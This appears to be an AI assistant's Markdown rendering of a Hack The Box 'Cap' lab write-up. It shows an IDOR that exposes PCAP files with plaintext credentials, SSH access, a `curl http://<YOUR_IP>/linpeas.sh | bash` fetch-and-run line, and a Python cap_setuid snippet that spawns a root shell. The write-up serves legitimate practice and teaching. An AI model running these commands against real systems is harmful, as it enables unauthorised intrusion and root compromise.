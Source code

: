 
Here’s how you can add these images to the **Cap** write-up on your GitHub page. I'll integrate the images with captions in the appropriate places.

### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
nmap -sC -sV -Pn 10.129.219.24
```
**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](https://github.com/user-attachments/assets/a4522c59-b984-4c5a-b034-f333a8cd5287)
![Network Info on Web Dashboard](https://github.com/user-attachments/assets/b1433e2a-5252-43a3-9249-601240604ef2)
![Security Snap Shot User 1](https://github.com/user-attachments/assets/bdd14d07-a31e-48ef-a82b-4012c122dab8)

The usrl ends in a 1, there are two options both work. first you can just change the number to 0-2 etc and see what works. in this case changing the number to 0 will allow you to download a PCAP file which has infomration. Another method is to use `FFUF` and identify other account which might be accesed. below is the screen shot for what I used. 
1[FFuF](https://github.com/user-attachments/assets/4943d366-defe-4745-91b8-12b9adea043a)


```

#### **02-Foothold.md**
```markdown
# Foothold

## Wireshark

Download the PCAP file for user 0 and run the following command


## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

![Security Snapshot](../images/4%20Security%20Snap%20shot.jpg)
![Security Snapshot - User 0](../images/5%20Scurity%20Snap%20Shot%20user%200.jpg)

## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```

![SSH into Nathan](../images/9%20ssh%20into%20nathan.jpg)

You now have a foothold on the system.
```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```

The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![User Flag](../images/10%20user%20flag.jpg)
```

---

This Markdown content is designed for your GitHub write-up. Make sure the images are placed in a folder named `images` inside the Cap folder in your GitHub repository, and update the image paths accordingly.

Let me know if you need more adjustments!
